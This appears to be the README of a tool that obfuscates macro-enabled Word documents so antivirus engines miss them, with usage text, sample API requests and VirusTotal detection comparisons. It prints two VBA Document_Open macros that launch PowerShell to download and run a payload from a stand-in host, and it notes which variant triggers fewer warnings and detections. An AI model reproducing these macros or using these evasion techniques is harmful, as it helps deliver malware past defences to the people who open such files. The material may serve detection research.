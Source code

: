 # docm_obfuscator
https://arielkoren.com/blog/2020/12/24/forging-malicious-doc/


Obfuscate a macro-containing Word doc (optionally within a .zip file) using "File Buffer Collapsing", "Ghost File", or "Invalid Header" techniques (or a combination)

## Usage

### Run Script Directly

```
usage: obfuscate_file.py <in_file> <obfuscation_technique>

in_file                The file to obfuscate. Can be a macro-embedded Word doc (.docm), or a .zip file
                       containing one or more .docm

obfuscation_technique  Obfuscation technique to use

                       buffer_collapse     "File Buffer Collapse" - Macro's Local File Header is embedded  
                                            in compressed zip section of another Local File Header
                       ghost_file          "Ghost File" - Local File Header for macro included without corresponding
                                            Central Directory File Header
                       invalid_header       "Invalid File Header" - Local File Header for macro is corrupted with
                                            invalid CRC-32
                       invalid_plus_buffer  "Invalid File Header" applied, followed by "File Buffer Collapse"
                       invalid_plus_ghost   "Invalid File Header" applied, followed by "Ghost File"
    
```

### API Server
Starts API server that will listen to GET/POST in below format

```
usage: server_test.py [-h] [-l LHOST] [-p PORT]

optional arguments:
  -h, --help            show this help message and exit
  -l LHOST, --lhost LHOST
                        The bind address to listen on
  -p PORT, --port PORT  The port to listen on

```

### POST - Send doc/zip for obfuscation

Request:
```
POST / HTTP/1.1
Host: localhost.:8000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:84.0) Gecko/20100101 Firefox/84.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------4907851351774763772443316270
Content-Length: 16409
Origin: http://localhost.:8000
Connection: close
Referer: http://localhost.:8000/
Upgrade-Insecure-Requests: 1

-----------------------------4907851351774763772443316270
Content-Disposition: form-data; name="cname"

obfuscated_doc.docm
-----------------------------4907851351774763772443316270
Content-Disposition: form-data; name="obfuscation"

invalid_plus_buffer
-----------------------------4907851351774763772443316270
Content-Disposition: form-data; name="file"; filename="bad_doc.docm"
Content-Type: application/vnd.ms-word.document.macroEnabled.12

PK... zip file content...
...
-----------------------------4907851351774763772443316270--
```

Response:
```
HTTP/1.0 200 File obfuscated_doc.docm uploaded successfully with invalid_plus_buffer obfuscation applied
Server: BaseHTTP/0.6 Python/3.7.3
Date: Sat, 02 Jan 2021 18:06:05 GMT
```

### GET - Retrieve Obfuscated doc/zip

```
GET /obfuscated_doc.docm HTTP/1.1
Host: localhost.:8000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:84.0) Gecko/20100101 Firefox/84.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

## Detections

### Virustotal

#### Malicious .docm

The file "unmodified.docm" (in the artifacts folder on this repo) contains the following macro.
A message box is popped, then Powershell is spawned and a download from `'http://example.com/malicious/payload.exe'` is attempted


```
Private Sub Document_Open()
  MsgBox "Macro popping Powershell!", vbOKOnly, "game over"
  a = Shell("powershell.exe -noexit -Command ""IEX ((new-object net.webclient).downloadstring('http://example.com/malicious/payload.exe'))""", 1)
End Sub
```

Without any obfuscation applied, the doc is extensively detected as malicious:
![alt text](https://github.com/jasonb17/docm_obfuscator/blob/main/images/unmodified.png?raw=true)

With some of the obfuscation techniques:

"Ghost File"

![alt text](https://github.com/jasonb17/docm_obfuscator/blob/main/images/ghost_file.png?raw=true)

"Invalid File Header + File Buffer Collapsing"

![alt text](https://github.com/jasonb17/docm_obfuscator/blob/main/images/invalid_plus_buffer.png?raw=true)


#### Zip containing malicious .docm

The file "unmodified.zip" (in the artifacts folder on this repo) contains the file "unmodified.docm" referenced above, along with 2 other files.
No compression/store has been used.

Unmodified:

![alt text](https://github.com/jasonb17/docm_obfuscator/blob/main/images/unmodified_zip.png?raw=true)

"Invalid File Header + Ghost File"

![alt text](https://github.com/jasonb17/docm_obfuscator/blob/main/images/invalid_plus_ghost_zip.png?raw=true)

"Invalid File Header + File Buffer Collapsing"

![alt text](https://github.com/jasonb17/docm_obfuscator/blob/main/images/invalid_plus_buffer_zip.png?raw=true)


## Further Notes

As referenced in the blog post, these techniques will result in 2 error messages upon opening the obfuscated file. Both messages must be accepted
("Yes" and "Open") for the macro to trigger.

Error 1
![alt text](https://github.com/jasonb17/docm_obfuscator/blob/main/images/error1.png?raw=true)

Error 2
![alt text](https://github.com/jasonb17/docm_obfuscator/blob/main/images/error2.png?raw=true)

Interestingly, if a slightly different and equally functional Powershell command is used within the VBA macro, only Error 1 is triggered.
```
Private Sub Document_Open()
  MsgBox "Macro popping Powershell!", vbOKOnly, "game over"
  a = Shell("powershell.exe -noexit -Command ""IWR 'http://example.com/malicious/payload.exe'""", 1)
End Sub
```

This command also appeared to result in a slightly lower initial detection numbers on VirusTotal.
